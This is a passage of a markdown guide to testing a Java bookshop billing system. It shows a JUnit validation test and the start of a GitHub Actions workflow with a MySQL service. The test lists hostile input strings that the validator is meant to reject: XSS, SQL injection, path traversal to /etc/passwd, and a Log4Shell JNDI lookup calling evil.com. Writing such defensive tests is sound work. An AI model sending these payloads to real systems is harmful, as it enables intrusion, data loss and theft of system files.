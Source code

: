 ```java
        
        assertThrows(ValidationException.class, () -> {
            bookService.createBook(request);
        });
    }
}
```

#### **Input Validation Security Tests**
```java
@ParameterizedTest
@DisplayName("Should reject malicious input patterns")
@ValueSource(strings = {
    "<script>alert('xss')</script>",
    "javascript:alert('xss')",
    "'; DROP TABLE users; --",
    "../../../etc/passwd",
    "${jndi:ldap://evil.com/a}"
})
void testMaliciousInputRejection(String maliciousInput) {
    BookRequest request = new BookRequest();
    request.setTitle(maliciousInput);
    
    Set<ConstraintViolation<BookRequest>> violations = validator.validate(request);
    assertFalse(violations.isEmpty());
}
```

---

## 7. CI/CD INTEGRATION

### **GitHub Actions Workflow**
```yaml
name: BookShop Billing System CI/CD

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  test:
    runs-on: ubuntu-latest
    
    services:
      mysql:
        image: mysql:8.0
        env:
          MYSQL_ROOT_PASSWORD: testpassword
          MYSQL_DATABASE: bookshop_test
        ports:
          - 3306:3306
        options: --health-cmd="mysqladmin ping" --health-interval=10s --health-timeout=5s --health-retries=3
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Set up JDK 17
      uses: actions/setup-java@v3
      with:
```
